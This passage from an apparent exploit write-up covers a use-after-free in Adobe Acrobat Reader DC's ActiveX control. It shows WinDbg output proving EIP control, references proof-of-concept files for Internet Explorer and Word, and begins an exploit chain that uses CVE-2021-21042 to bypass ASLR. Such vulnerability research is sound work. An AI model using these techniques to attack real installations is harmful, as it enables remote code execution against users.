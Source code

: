 Taking this in account, it is possible to build a proof of concept.

## Proof of Concept

The proof of concept just triggers the bug and reallocates the object being freed. **As Adobe Acrobat Reader DC ActiveX was built without CFG (Control Flow Guard) flag**, the POC will give us **direct EIP control**. That easy.

For example, this is the windbg output for [./POCs/MSIE/poc.html](./POCs/MSIE/poc.html):

```
(71c.204c): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Program Files (x86)\Common Files\Adobe\Acrobat\ActiveX\AcroPDFImpl.dll - 
41414141 ??              ???
1:022:x86> r
eax=0573cabc ebx=00000000 ecx=02c89a00 edx=00000020 esi=680c3a48 edi=00000000
eip=41414141 esp=0573caa4 ebp=0573cac0 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
41414141 ??              ???
1:022:x86> dc ecx
02c89a00  42424242 00410041 00410041 00410041  BBBBA.A.A.A.A.A.
02c89a10  00410041 00410041 00410041 00410041  A.A.A.A.A.A.A.A.
02c89a20  00410041 00410041 00410041 00410041  A.A.A.A.A.A.A.A.
02c89a30  41414141 00420042 00420042 00420042  AAAAB.B.B.B.B.B.
02c89a40  43434343 00430043 00430043 00430043  CCCCC.C.C.C.C.C.
02c89a50  00430043 00000043 9a40836e 88000c00  C.C.C...n.@.....
02c89a60  00000002 00000001 00000000 00000001  ................
02c89a70  00000001 02c7bf70 75ced728 75ced728  ....p...(..u(..u
1:022:x86> dc esp
0573caa4  68087757 02c89a00 43434343 079a9990  Ww.h....CCCC....
0573cab4  00000002 0573cabc 00000000 0573cad0  ......s.......s.
0573cac4  680881b3 079a9990 00000002 0573cb70  ...h........p.s.
0573cad4  6806afbd 02c89a00 079a9990 00000002  ...h............
0573cae4  5952dbff 0573cb88 0573cbd0 6807df34  ..RY..s...s.4..h
0573caf4  00000003 07a68488 00000003 00000000  ................
0573cb04  00000002 00000000 079a9990 00000000  ................
0573cb14  00000000 07a5089c 00000000 02c89a00  ................

```

*There are POCs for Microsoft Internet Explorer & Microsoft Word (in DOCX & RTF formats). You will find a summary of files and dependencies in the end of this write-up.*


## Exploit code

In order to build an exploit, it is necessary to bypass ASLR somehow. To do that, [CVE-2021-21042](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-21042) was used.

[CVE-2021-21042](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-21042) was a **pretty nice bug** discovered by [Mark Vincent Yason](https://twitter.com/markyason) which leaks content of the stack, Mat Powell from [ZDI](https://www.zerodayinitiative.com) wrote a nice [write-up](https://www.zerodayinitiative.com/blog/2021/2/17/zdi-21-171-getting-information-disclosure-in-adobe-reader-through-the-id-tag) where he explained the bug. Since this bug was patched on Feb, 2021, it is somehow a perfect candidate for my exploit. However i found **some challenges** to overcome in order to use this.

